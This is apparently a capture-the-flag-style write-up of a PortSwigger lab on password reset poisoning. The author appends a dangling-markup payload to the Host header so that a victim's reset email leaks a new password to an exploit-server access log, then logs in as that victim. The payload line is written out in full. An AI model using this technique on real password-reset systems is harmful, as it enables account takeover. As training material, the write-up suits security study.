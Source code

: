 # Password reset poisoning via dangling markup | Dec 28, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup), you'll learn: Password reset poisoning via dangling markup! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★☆☆☆☆

## Background

This lab is vulnerable to password reset poisoning via [dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup). To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

## Exploitation

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228041009.png)

In here, we can see that there is a `Forgot password?` link.

**Let's try to reset user `wiener` password:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228041054.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228041103.png)

**Email client:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228041148.png)

When we reset user's password, it'll send an email to that account.

In that email, **it'll include a new password** and a login link.

Also, **the email will be scanned by the MacCarthy Email Security service.**

**Let's take a look at the email page:**
```html
    <section class='maincontainer is-page'>
        <div class=container>
            <h4>Your email address is wiener@exploit-0a6300c0039c728fc01880350103009d.exploit-server.net</h4>
            <h6>Displaying all emails @exploit-0a6300c0039c728fc01880350103009d.exploit-server.net and all subdomains</h6>
            <table>
                <tr><th>Sent</th><th>From</th><th>Subject</th><th>Body</th><th></th></tr>
                <tr><td>2022-12-28 09:10:56 +0000</td><td style='word-break: break-word'>no-reply@0af400d6039b72eac060812d000b00df.web-security-academy.net</td><td style='overflow-wrap: break-word; max-width: 150px'>Account recovery</td><td><div style='word-break: break-all' class=dirty-body data-dirty='<p>Hello!</p><p>Please <a href=&apos;https://0af400d6039b72eac060812d000b00df.web-security-academy.net/login&apos;>click here</a> to login with your new password: tkpWbBoWlm</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>'></div></td><td><a target=_blank href='?raw=0'>View raw</a></td></tr>
            </table>
        </div>
    </section>
</div>
<script src='resources/js/domPurify-2.0.15.js'></script>
<script>
    window.addEventListener('DOMContentLoaded', () => {
        for (let el of document.getElementsByClassName('dirty-body')) {
            el.innerHTML = DOMPurify.sanitize(el.getAttribute('data-dirty'));
        }
    });
</script>
```

As you can see, it has a JavaScript library called DOMPurify, which **sanitizes HTML and prevents XSS attacks.**

**In the email client, we can also view the raw content of an email:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228041910.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228041916.png)

In here, we can see that the HTML codes doesn't sanitized.

**Armed with above information, we can start to modify the `Host` HTTP header in `/forgot-password`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228042140.png)

**Let's change it to a random host:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228042212.png)

Hmm... HTTP status `504 Gateway Timeout`.

**Then what if I inject duplicate Host headers?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228042341.png)

`Duplicate header names are not allowed`.

**After some trial and errors, I found that we can append anything to the normal `Host` header:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228042555.png)

**Email client:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228042626.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228042638.png)

**Hmm... Looks like our modified `Host` header successfully appended to the `<a>` tag!**

Now, **we can injection our XSS(Cross-Site Scripting) payload to the `<a>` tag!**

```html
:'<a href="//exploit-0a6300c0039c728fc01880350103009d.exploit-server.net/?
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043506.png)

**Email client:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043516.png)

As you can see, the rest of the body is gone, which is good!

**Let's view the raw content:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043553.png)

**Our XSS payload successfully injected to the `<a>` tag, and the MacCarthy Email Security service scanned the email content, which will fetch the email body's content to our exploit server!**

**Check exploit server's access log:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043727.png)

The password is included in the log file!

**Now, we can obtain `carlos` new password via changing the `username` parameter in the POST `/forgot-password`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043819.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043836.png)

Boom! We got it!

Let's login as user `carlos`!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043859.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043922.png)

We're user `carlos`!

# What we've learned:

1. Password reset poisoning via dangling markup